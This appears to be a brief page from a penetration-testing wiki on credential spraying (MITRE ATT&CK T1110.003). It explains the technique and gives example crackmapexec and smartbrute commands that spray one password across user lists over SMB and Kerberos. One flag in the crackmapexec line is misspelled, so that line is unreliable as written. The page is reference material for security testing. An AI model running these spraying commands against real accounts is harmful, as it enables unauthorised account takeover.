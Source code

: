 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1110.003
---
```


# Spraying

Credential spraying is a technique that attackers use to try a few passwords (or keys) against a set of usernames instead of a single one. This technique is just [credential guessing](guessing.md) but "sprayed" (i.e. against multiple accounts) and tools that can do [credential guessing](guessing.md) can usually do spraying.

```bash
# crackmapexec example
cme smb target_ip -d domain.local -u users.txt -p "password" --no-bruteforce --continue-on-succes

# smartbrute example (dynamic user list)
smartbrute smart -bp "password" kerberos -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --kdc-ip "$KDC" kerberos

# smartbrute example (static users list)
smartbrute brute -bU users.txt -bp "password" kerberos --kdc-ip "$KDC" 
```

{% content-ref url="guessing.md" %}
[guessing.md](guessing.md)
{% endcontent-ref %}



